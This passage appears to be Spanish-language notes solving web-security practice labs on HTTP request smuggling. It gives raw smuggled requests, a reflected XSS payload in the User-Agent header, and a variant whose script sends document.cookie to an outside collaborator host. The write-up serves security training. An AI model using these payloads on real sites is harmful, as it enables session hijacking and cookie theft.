 ```js
------------- SOLUCION @botesjuan
Content-Length: 242
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=HackerCurrentCookieValue

csrf=ValidCSRFCookieValue&postId=8&name=c&email=c%40c.c&website=&comment=c
```

### LAB: CL->TE - Reflected XSS Via `User-Agent` Header

* Basicamente tirar un XSS en la cabecera y que genere un Alert, sin embargo en un ataque real desencadenamos robo de cookies. 
```js
----------- Mi solucion @JFOZ1010
Content-Length: 83
Transfer-Encoding: chunked

0

GET /post?postId=3 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Foo: X

\r\n\r\n

-------------- SOLUCION @botesJuan STEAL COOKIE
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://OASTIFY.COM/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

### LAB: H2->CL `Open Redirect` - `Server Exploit `

* Pero el Content-Length del POST / HTTP/2 legitimo debe mantenerse en 0 y esta vez no cambiamos a `HTTP/1.1` se mantiene en `HTTP/2` 
![[Pasted image 20250219121853.png]]
